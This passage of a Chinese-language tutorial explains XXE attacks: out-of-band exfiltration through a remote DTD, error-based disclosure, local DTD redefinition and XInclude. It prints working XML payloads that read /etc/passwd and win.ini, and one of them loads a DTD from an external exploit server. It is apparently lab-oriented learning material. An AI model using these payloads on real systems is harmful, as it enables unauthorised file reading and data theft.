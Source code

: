 1. 首先解析xxe参数实体,这时从恶意服务器请求加载恶意的dtd文件.
2. 解析远程dtd文件时,首先触发解析`%eval`参数实体.
3. 在`%eval`参数实体的定义中,获取到`%exfiltrate`实体的定义.
4. 解析`%exfiltrate`参数实体,其定义为请求恶意服务器地址,其中包含x参数参数实体`%file`的值.
5. 而`%file`参数实体的定义为读取到的/etc/passwd的值,这时在恶意服务器上的请求日志中便能得到该文件的内容.  

有时候因为/etc/passwd中的特殊字符(换行等)会导致文件读取失败,可以考虑换成/etc/homename.
### 报错回显
这种方式通过构造一个错误的解析数据,使得解析器报错并且将想要的结果包含在错误信息中,如果服务器会返回错误信息的话则可以从报错信息中获取相应数据.
1. 在服务上托管一个会产生解析错误的dtd文档.
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///xxx/%file;'>">
%eval;
%exfil;
```  
可以看到在`exfil`实体的定义中,其file协议读取文件时包含了一个不存在的路径,这会导致一个报错.
2. 插入如下payload
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a10000c03cb9a04c0c590d401bd00c7.exploit-server.net/exploit.dtd"> %xxe;]>
```
因为路径错误最终会将整个路径作为错误信息返回,其中则包含了`%file`实体的内容.  
![](2022-11-01-15-26-49.png)
### 滥用本地DTD
报错和OOB通道都是利用的外部DTD文件,但如果只能使用内部DTD的话,则无法进行利用,因为在外部DTD中,是可以在参数实体中嵌套其它参数实体的,而在内部实体中则无法进行嵌套.  
然而当一个DTD文件中同时存在内部DTD和外部DTD声明时,那么内部的DTD是可以重新定义外部DTD中的实体的.那么则可以通过滥用一些本地的DTD来触发错误解析得到敏感数据.

1. 假设本地存在一个dtd文件,其中定义了一个ISOamso实体.
2. 插入如下payload

```xml
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```  
通过在payload中的内部DTD重新定义外部docbookx.dtd中的ISOamso实体,将其定义为报错回显的payload,那么在加载本地docbookx.dtd中的ISOamso时同样会触发路径错误从而暴露错误信息得到敏感数据.   
![](2022-11-01-16-33-35.png)
## 不常见的XXE攻击面
除了请求中的XML数据格式可能存在XXE,还有一些不明显的功能也可能造成XXE.
### XInclude attacks
有些时候,用户提交的数据可能只是一个XML数据的一部分,即无法控制整个XML文档,则无法在`DOCTYPE`中定义实体进行XXE.
而XInclude是XML定义的一部分,它允许从子文件中建立一个XML文档。可以把XInclude攻击放在XML文档中的任何数据值中，因此,可以在只控制被放入服务器端XML文档的单一数据项的情况下进行XXE.
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
<xi:include href="file:///C:/Windows/win.ini" parse="text"/>
</foo>
```  
首先需要先引入XInclude的命名空间,在href属性指定要包含的文件.  
![](2022-11-01-16-53-51.png)